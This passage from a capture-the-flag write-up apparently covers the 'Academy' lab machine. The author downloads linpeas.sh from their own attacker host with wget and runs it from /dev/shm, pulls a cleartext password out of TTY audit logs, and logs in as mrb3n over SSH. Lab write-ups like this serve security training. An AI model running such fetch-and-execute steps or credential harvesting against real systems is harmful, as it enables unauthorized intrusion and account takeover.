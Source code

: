 At last i ran `linpeas.sh` within the `/dev/shm/` directory.

```console
cry0l1t3@academy:/dev/shm$ wget http://10.10.14.14/linpeas.sh
wget http://10.10.14.14/linpeas.sh
--2022-01-04 15:03:55--  http://10.10.14.14/linpeas.sh
Connecting to 10.10.14.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 762836 (745K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 744.96K  1.39MB/s    in 0.5s

2022-01-04 15:03:55 (1.39 MB/s) - ‘linpeas.sh’ saved [762836/762836]

cry0l1t3@academy:/dev/shm$ chmod +x linpeas.sh
chmod +x linpeas.sh
cry0l1t3@academy:/dev/shm$ ./linpeas.sh
```

```console
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

Password: mrb3n_Ac@d3my!

# Privilege Escalation to mrb3n

Obviously the password contained one of the already known usernames so i tried to directly log in as `mrb3n` via SSH.

```console
$ ssh mrb3n@10.10.10.215
mrb3n@10.10.10.215's password:
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 04 Jan 2022 03:17:22 PM UTC

  System load:  0.0                Processes:               241
  Usage of /:   38.6% of 13.72GB   Users logged in:         0
  Memory usage: 26%                IPv4 address for ens160: 10.10.10.215
  Swap usage:   0%


89 updates can be installed immediately.
42 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Feb  9 14:20:36 2021
$
```
